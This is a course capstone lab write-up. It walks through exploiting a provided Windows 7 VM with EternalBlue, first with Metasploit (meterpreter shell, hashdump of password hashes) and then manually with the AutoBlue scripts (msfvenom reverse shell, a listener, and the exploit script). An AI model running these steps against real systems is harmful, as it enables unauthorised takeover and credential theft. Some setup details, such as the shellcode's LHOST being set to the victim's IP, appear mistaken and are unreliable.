








# Course Capstone - Blue

This capstone challenge aims to exploit a course-provided Windows VM via both automated (Metasploit) and manual methods.

We will be attacking this vulnerable victim VM from a separate Kali Linux VM (mentioned later as 'attacker VM').

## VM Setup
The VM must first be imported into your hypervisor. I used VirtualBox. <br>
**Be sure that your attacker VM and victim VM have the same network adapter so they can reach one another.**

Start the victim VM, log in using one of the provided passwords in **accounts.txt** and grab its IP address using the command **ipconfig**.



Ensure your attacker VM can reach this machine by **pinging** it.



## Initial Enumeration
Run an Nmap scan against the victim VM: <br>
`nmap -T4 -p- -A [VICTIM VM IP]`

```
Starting Nmap 7.99 ( https://nmap.org ) at 2026-07-01 16:23 -0400
Nmap scan report for 10.0.2.10
Host is up (0.00022s latency).
Not shown: 65527 closed tcp ports (reset)
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Ultimate 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
MAC Address: 08:00:27:B7:FA:79 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Microsoft Windows 2008|7|Vista|8.1
OS CPE: cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_vista cpe:/o:microsoft:windows_8.1
OS details: Microsoft Windows Vista SP2 or Windows 7 or Windows Server 2008 R2 or Windows 8.1
Network Distance: 1 hop
Service Info: Host: WIN-845Q99OO4PP; OS: Windows; CPE: cpe:/o:microsoft:windows


Host script results:
|_nbstat: NetBIOS name: WIN-845Q99OO4PP, NetBIOS user: <unknown>, NetBIOS MAC: 08:00:27:b7:fa:79 (Oracle VirtualBox virtual NIC)
| smb-os-discovery: 
|   OS: Windows 7 Ultimate 7601 Service Pack 1 (Windows 7 Ultimate 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1
|   Computer name: WIN-845Q99OO4PP
|   NetBIOS computer name: WIN-845Q99OO4PP\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2026-07-01T16:25:38-04:00
| smb2-security-mode: 
|   2.1: 
|_    Message signing enabled but not required
|_clock-skew: mean: 1h20m01s, deviation: 2h18m34s, median: 0s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2026-07-01T20:25:38
|_  start_date: 2026-07-01T20:14:45


TRACEROUTE
HOP RTT     ADDRESS
1   0.22 ms 10.0.2.10
``` 

The scan results don't provide many useful clues, other than this machine may be vulnerable to SMB attacks. However, searching online for **Windows 7 Ultimate 7601 Service Pack 1 exploits** provides us the exploit we should use:

```
EternalBlue (MS17-010)
Overview: The most infamous exploit for Windows 7 SP1 (Build 7601). It targets a flaw
in how the system handles SMBv1 requests.
Impact: Unauthenticated remote code execution (RCE) at the kernel level. It allows
complete system takeover without user interaction.
Real-World Use: This exploit, leaked by the Shadow Brokers, was famously used in the
global WannaCry and NotPetya ransomware outbreaks.
Usage: Readily available in penetration testing frameworks such as Rapid7 Metasploit 
or via open-source Exploit-DB scripts.
```

## Automated Exploitation via Metasploit

Open metasploit using the command **msfconsole** and use metasploit's **search** capability to find useful modules:



We can use this module using the command `use exploit/windows/smb/ms17_010_eternalblue`.

Before continuing further, we can confirm that the victim VM is vulnerable to this exploit by using **check**:



Configure the module **options** to work with our attacker and victim VMs:
* RHOST --> victim VM's IP
* LHOST --> attacker VM's IP

Run the exploit using **run**:



We now have a meterpreter shell open on the victim VM. We can confirm remote access using commands such as **hashdump**, which will dump the password hashes for all users on the machine.

## Manual Exploitation

Since we already know that the victim VM is vulnerable to EternalBlue, we can search the web for exploits. The one I used can be found [here](https://github.com/3ndG4me/AutoBlue-MS17-010/tree/master).

I cloned the repo into a Python virtual environment and installed the tool's requirements using `pip3 install -r requirements.txt`.

Following the usage directions, first we need to run `./shell_prep.sh` and initialize the shellcode. I configured the options as follows:
* Y to create a reverse shell with msfvenom
* LHOST --> victim VM's IP
* LPORT for x64 --> listening port you choose
* LPORT for x86 --> listening port you choose
* 1 for regular cmd shell
* 0 for staged payload



Next we need to run `./listener_prep.sh` and initialize the metasploit listener. I configured the options as follows:
* LHOST --> attacker VM's IP
* LPORT for x64 --> listening port you choose (must be same as set in last step)
* LPORT for x86 --> listening port you choose (must be same as set in last step)
* 1 for regular cmd shell
* 0 for staged payload



We can see the metasploit listener was created as we see a **multi/handler** was opened and configured in metasploit.

Run the exploit by running the script **eternalblue_exploit7.py**: `python3 eternalblue_exploit7.py [VICTIM VM IP] shellcode/sc_all.bin`



After exploitation, we can confirm the exploit was successful when the victim VM is forced to shutdown.
